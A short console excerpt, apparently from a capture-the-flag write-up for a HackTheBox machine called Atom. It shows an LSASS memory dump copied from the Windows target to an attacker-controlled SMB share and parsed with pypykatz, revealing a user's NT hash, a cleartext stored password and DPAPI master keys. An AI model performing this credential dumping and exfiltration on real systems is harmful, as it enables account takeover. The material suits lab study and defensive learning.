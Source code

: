  ```console
                 7 Dir(s)   5,421,928,448 bytes free
  
  C:\Users\Public> copy lsass.dmp \\10.10.16.10\public\
  
  
  ┌─[✗]─[rio@parrot]─[~/Htb/Atom]
  └──╼ $pypykatz lsa minidump lsass.dmp  | grep -A10 jason
  INFO:root:Parsing file lsass.dmp
  username jason
  domainname ATOM
  logon_server ATOM
  logon_time 2021-09-09T01:55:47.859452+00:00
  sid S-1-5-21-1199094703-3580107816-3092147818-1002
  luid 325883
          == MSV ==
                  Username: jason
                  Domain: ATOM
                  LM: NA
                  NT: 499aef4877d2d83e548a3e8f5f742ffe
                  SHA1: b7c4ec1e6e52ee28c1511e90e80d18141113cc78
                  DPAPI: NA
          == WDIGEST [4f8fb]==
                  username jason
                  domainname ATOM
                  password None
                  password (hex)
          == Kerberos ==
                  Username: jason
                  Domain: ATOM
          == WDIGEST [4f8fb]==
                  username jason
                  domainname ATOM
                  password None
                  password (hex)
          == CREDMAN [4f8fb]==
                  luid 325883
                  username ATOM\jason
                  domain ATOM\jason
                  password kidvscat_electron_@123
                  password (hex)6b0069006400760073006300610074005f0065006c0065006300740072006f006e005f00400031003200330000000000
          == DPAPI [4f8fb]==
                  luid 325883
                  key_guid 3a86d311-a5fe-4022-8640-4c8f01812ebe
                  masterkey 832c18c5fe16007c66b8ca6a2e5722461b99976e9fa63689c4ec87b09ea4a960c2a445cb4ef1bedb7f095fa73d394c13594ad3e87da16306cd77231bd8bcaee1
                  sha1_masterkey 3da278dc831da444899ea533296e84231e2f08ed
          == DPAPI [4f8fb]==
                  luid 325883
                  key_guid a96996a9-5aec-4f82-a145-68ee2de5ea3f
  ```
